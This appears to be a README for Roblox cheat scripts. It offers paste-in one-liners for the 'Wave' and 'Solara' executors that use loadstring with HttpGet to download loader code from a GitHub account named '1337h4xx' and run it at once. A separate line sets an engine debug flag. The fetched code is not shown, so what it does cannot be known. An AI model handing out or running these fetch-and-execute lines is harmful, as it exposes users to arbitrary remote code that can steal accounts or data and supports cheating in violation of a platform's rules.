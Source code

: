 # Wave
```
loadstring(game:HttpGet('https://raw.githubusercontent.com/1337h4xx/1/main/loader2.0'))()
```

# Solara
```
loadstring(game:HttpGet('https://raw.githubusercontent.com/1337h4xx/1/main/loader'))()
```

```
setfflag("DebugRunParallelLuaOnMainThread","True");
```
